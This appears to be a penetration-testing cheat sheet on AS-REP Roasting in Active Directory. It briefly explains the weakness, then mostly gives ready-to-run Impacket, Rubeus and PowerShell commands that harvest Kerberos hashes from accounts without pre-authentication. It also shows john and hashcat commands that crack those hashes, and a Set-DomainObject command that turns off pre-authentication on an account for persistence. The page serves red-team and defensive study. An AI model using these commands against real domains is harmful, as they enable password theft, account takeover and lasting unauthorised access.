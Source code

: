 # AS-REP Roasting

The ASREPRoast attack looks for **users without Kerberos pre-authentication required attribute (**[_**DONT\_REQ\_PREAUTH**_](https://support.microsoft.com/en-us/help/305144/how-to-use-the-useraccountcontrol-flags-to-manipulate-user-account-pro)_**)**_.

That means that anyone can send an AS\_REQ request to the DC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.

Furthermore, **no domain account is needed to perform this attack**, only connection to the DC. However, **with a domain account**, a LDAP query can be used to **retrieve users without Kerberos pre-authentication** in the domain. **Otherwise usernames have to be guessed**.

{% code title="Using Linux" %}
```bash
impacket-GetNPUsers -no-pass -request -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst
impacket-GetNPUsers -no-pass -request -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst | grep krb5asrep

impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat 

#Try all the usernames in usernames.txt
impacket-GetNPUsers jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
impacket-GetNPUsers jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
{% endcode %}

{% code title="Using WIndows" %}
```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```
{% endcode %}

### Cracking

```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```

### Persistence

Force **preauth** not required for a user where you have **GenericAll** permissions (or permissions to write properties):

```bash
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

## References

[**More information about AS-REP Roasting in ired.team**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
